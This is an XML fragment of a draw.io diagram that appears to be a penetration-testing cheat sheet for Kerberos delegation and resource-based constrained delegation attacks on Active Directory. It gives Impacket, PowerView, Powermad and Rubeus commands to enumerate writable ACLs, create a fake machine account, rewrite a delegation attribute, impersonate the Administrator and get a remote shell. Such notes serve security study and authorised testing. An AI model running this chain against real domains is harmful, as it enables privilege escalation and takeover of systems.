        <mxCell id="VL_DeuJodb9uclPqMyuw-79" value="&lt;div&gt;klist&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="-782" y="4158.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-80" value="&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; klist&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-782" y="4218.5" width="390" height="41.5" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-86" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-82" target="VL_DeuJodb9uclPqMyuw-84" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-98" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-82" target="VL_DeuJodb9uclPqMyuw-96" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-82" value="&lt;div&gt;Using the Ticket&amp;nbsp;&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="-1062" y="4368" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-84" value="&lt;div&gt;PS&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="-786" y="4400" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-85" value="&lt;div&gt;PS C:\Tools&amp;gt; Enter-PSSession &amp;lt;target&amp;gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-786" y="4460" width="390" height="70" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-88" value="&lt;div&gt;impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="-872" y="3368" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-89" value="findDelegation.py &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;:&amp;lt;pass&amp;gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-872" y="3428" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-91" value="&lt;div&gt;&lt;i&gt;The results show three types of delegation:&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;- Unconstrained: The account is configured with unconstrained delegation.&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;- Constrained: The account uses constrained delegation, but without support for protocol transition.&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;- Constrained with Protocol Transition: The account has constrained delegation enabled along with protocol transition support.&lt;/i&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-872" y="3478" width="390" height="122" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-92" value="&lt;div&gt;Impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="-346" y="3800" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-93" value="&lt;div&gt;kali$ getST.py -spn &amp;lt;service&amp;gt;/&amp;lt;targetname&amp;gt; &#39;&amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;:&amp;lt;pass&amp;gt; -impersonate &amp;lt;user-to-impersonate&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-346" y="3859" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-95" value="&lt;div&gt;&lt;i&gt;This will generate a ticket and save it as a ccache-file in the current directory. Once we have this valid ticket to access the service on target as the requested user, we can use it with psexec.py from impacket, after exporting its path to the environment variable KRB5CCNAME. This tool will update the SPN in this TGS on the fly to get an interactive shell. The -debug flag is added on purpose so you can see what&#39;s going on.&lt;/i&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-346" y="3906" width="390" height="110" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-96" value="&lt;div&gt;Impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="-786" y="4570" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-97" value="&lt;div&gt;kali$ export KRB5CCNAME=&amp;lt;ccache-file&amp;gt;&lt;/div&gt;&lt;div&gt;kali$ psexec.py -k -no-pass &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;@&amp;lt;host&amp;gt; -debug&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-786" y="4628" width="390" height="70" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-99" value="Resource-based constrained delegation" style="whiteSpace=wrap;html=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="3143" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-103" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-101" target="VL_DeuJodb9uclPqMyuw-102" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-101" value="&lt;div&gt;&lt;i&gt;RBCD relies on security descriptors instead of an allowed list of SPNs. An administrator defines which security principals can request Kerberos tickets for a user. When a service receives a request to grant access on behalf of another user, the KDC checks against the security descriptors in the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of the principal running the backend service.&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;&lt;br&gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;If the security descriptor of the backend service matches that of the frontend service, then access will be granted.&amp;nbsp;&lt;br&gt;&lt;br&gt;&lt;div&gt;To carry out attacks against RBCD, we require two elements:&lt;/div&gt;&lt;div&gt;- Access to a user or group that has privileges to modify the msDS-AllowedToActOnBehalfOfOtherIdentity property on a computer. This is commonly possible if the user has GenericWrite, GenericAll, WriteProperty, or WriteDACL privileges on a computer object.&lt;/div&gt;&lt;div&gt;- Control of another object that has an SPN.&lt;/div&gt;&lt;/i&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="145" y="3203" width="290" height="347" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-106" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-102" target="VL_DeuJodb9uclPqMyuw-104" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-133" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-102" target="VL_DeuJodb9uclPqMyuw-132" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-6" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-102" target="-mCO11fVwZeK89IVwwup-4">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-102" value="&lt;div&gt;Search RBCD&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="3660" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-104" value="&lt;div&gt;PS&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="410" y="3566" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-105" value="&lt;div&gt;Import-Module C:\Tools\PowerView.ps1&lt;br&gt;$computers = Get-DomainComputer&lt;br&gt;$users = Get-DomainUser&lt;/div&gt;&lt;div&gt;$accessRights = &quot;GenericWrite&quot;,&quot;GenericAll&quot;,&quot;WriteProperty&quot;,&quot;WriteDacl&quot;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;# loop through each computer in the domain&lt;/div&gt;&lt;div&gt;foreach ($computer in $computers) {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; # get the security descriptor for the computer&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; $acl = Get-ObjectAcl -SamAccountName $computer.SamAccountName -ResolveGUIDs&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; # loop through each user in the domain&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; foreach ($user in $users) {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; # check if the user has the required access rights on the computer object&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; $hasAccess = $acl | ?{$_.SecurityIdentifier -eq $user.ObjectSID} | %{($_.ActiveDirectoryRights -match ($accessRights -join &#39;|&#39;))}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; if ($hasAccess) {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; Write-Output &quot;$($user.SamAccountName) has the required access rights on $($computer.Name)&quot;&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;}&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;strokeColor=light-dark(#ff0000, #ededed);strokeWidth=3;" parent="1" vertex="1">
          <mxGeometry x="410" y="3626" width="390" height="360" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-111" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-107" target="VL_DeuJodb9uclPqMyuw-109" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-113" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-107" target="VL_DeuJodb9uclPqMyuw-112" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-3" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-107" target="-mCO11fVwZeK89IVwwup-1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-107" value="&lt;div&gt;Create a Fake Computer&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="4158.5" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-109" value="&lt;div&gt;PowerMad&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="410" y="4198.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-110" value="&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\Powermad.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; New-MachineAccount -MachineAccount &amp;lt;machine-name&amp;gt; -Password $(ConvertTo-SecureString &amp;lt;password&amp;gt; -AsPlainText -Force)&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="410" y="4258" width="390" height="82" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-116" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-112" target="VL_DeuJodb9uclPqMyuw-114" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-120" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;strokeColor=#3333FF;" parent="1" source="VL_DeuJodb9uclPqMyuw-112" target="VL_DeuJodb9uclPqMyuw-117" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-14" value="WIN" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="VL_DeuJodb9uclPqMyuw-120">
          <mxGeometry x="-0.74" y="-3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-9" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-112" target="-mCO11fVwZeK89IVwwup-7">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-12" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.75;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-112" target="-mCO11fVwZeK89IVwwup-11">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="320" y="4960" />
              <mxPoint x="930" y="4960" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-13" value="LINUX" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-12">
          <mxGeometry x="-0.844" y="2" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-112" value="&lt;div&gt;Modify the target computer&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="4514" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-114" value="&lt;div&gt;PS&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="410" y="4514" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-115" value="&lt;div&gt;Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;&amp;nbsp;$ComputerSid = Get-DomainComputer &amp;lt;computer-name&amp;gt; -Properties objectsid | Select -Expand objectsid&lt;/div&gt;&lt;div&gt;$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList &quot;O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))&quot;&lt;/div&gt;&lt;div&gt;$SDBytes = New-Object byte[] ($SD.BinaryLength)&lt;/div&gt;&lt;div&gt;$SD.GetBinaryForm($SDBytes, 0)&lt;/div&gt;&lt;div&gt;$credentials = New-Object System.Management.Automation.PSCredential &quot;&amp;lt;fqdn&amp;gt;\&amp;lt;user&amp;gt;&quot;, (ConvertTo-SecureString &quot;&amp;lt;password&amp;gt;&quot; -AsPlainText -Force)&lt;/div&gt;&lt;div&gt;Get-DomainComputer &amp;lt;named-target&amp;gt; | Set-DomainObject -Set @{&#39;msds-allowedtoactonbehalfofotheridentity&#39;=$SDBytes} -Credential $credentials -Verbose&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="410" y="4572" width="390" height="232" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-121" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-117" target="VL_DeuJodb9uclPqMyuw-118" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-125" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;strokeColor=#3333FF;" parent="1" source="VL_DeuJodb9uclPqMyuw-117" target="VL_DeuJodb9uclPqMyuw-122" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-117" value="&lt;div&gt;Get Computer Hashes with Rubeus&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="5004" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-118" value="&lt;div&gt;Rubeus&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="400" y="5003.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-119" value="&lt;div&gt;PS C:\Tools&amp;gt; .\Rubeus.exe hash /password:&amp;lt;computer-pass&amp;gt; /user:&amp;lt;computer-name&amp;gt; /domain:&amp;lt;fqdn&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="400" y="5061.5" width="390" height="52.5" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-126" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-122" target="VL_DeuJodb9uclPqMyuw-123" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-130" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;strokeColor=#3333FF;" parent="1" source="VL_DeuJodb9uclPqMyuw-122" target="VL_DeuJodb9uclPqMyuw-127" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-150" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.75;exitDx=0;exitDy=0;entryX=1;entryY=0.25;entryDx=0;entryDy=0;fillColor=#e1d5e7;strokeColor=#FF8000;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-122" target="VL_DeuJodb9uclPqMyuw-71" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="-20" y="5259" />
              <mxPoint x="-20" y="4985" />
              <mxPoint x="-360" y="4985" />
              <mxPoint x="-360" y="3876" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-122" value="&lt;div&gt;Impersonate the Administrator&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="5214" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-123" value="&lt;div&gt;Rubeus&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="390" y="5214" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-124" value="&lt;div&gt;PS C:\Tools&amp;gt; .\Rubeus.exe s4u /user:&amp;lt;computer-name&amp;gt; /rc4:&amp;lt;hash&amp;gt; /impersonateuser:&amp;lt;user-to-impersonate&amp;gt; /msdsspn:&amp;lt;service&amp;gt;/&amp;lt;target&amp;gt;.&amp;lt;fqdn&amp;gt; /ptt&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="390" y="5272" width="390" height="72" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-131" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-127" target="VL_DeuJodb9uclPqMyuw-128" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-141" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="VL_DeuJodb9uclPqMyuw-127" target="VL_DeuJodb9uclPqMyuw-138" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-127" value="&lt;div&gt;Review Tickets in the Current Terminal&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="5394" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-128" value="&lt;div&gt;klist&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="390" y="5394" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-129" value="&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; klist&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="390" y="5452" width="390" height="32" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-136" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;jumpStyle=arc;" parent="1" source="VL_DeuJodb9uclPqMyuw-132" target="VL_DeuJodb9uclPqMyuw-117" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="130" y="3932" />
              <mxPoint x="130" y="5034" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-149" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fillColor=#e1d5e7;strokeColor=#FF8000;jumpStyle=arc;dashed=1;" parent="1" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="80" y="3932" />
              <mxPoint x="80" y="5244" />
            </Array>
            <mxPoint x="260" y="3932" as="sourcePoint" />
            <mxPoint x="240" y="5244" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-15" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;jumpStyle=arc;strokeColor=#FF0000;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-132" target="-mCO11fVwZeK89IVwwup-11">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="180" y="3932" />
              <mxPoint x="180" y="4980" />
              <mxPoint x="850" y="4980" />
              <mxPoint x="850" y="5032" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-16" value="YES" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-15">
          <mxGeometry x="-0.979" y="3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-33" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-132" target="-mCO11fVwZeK89IVwwup-32">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-132" value="usable computer?" style="rhombus;whiteSpace=wrap;html=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="250" y="3892" width="80" height="80" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-142" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-138" target="VL_DeuJodb9uclPqMyuw-139" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-146" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-138" target="VL_DeuJodb9uclPqMyuw-143" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
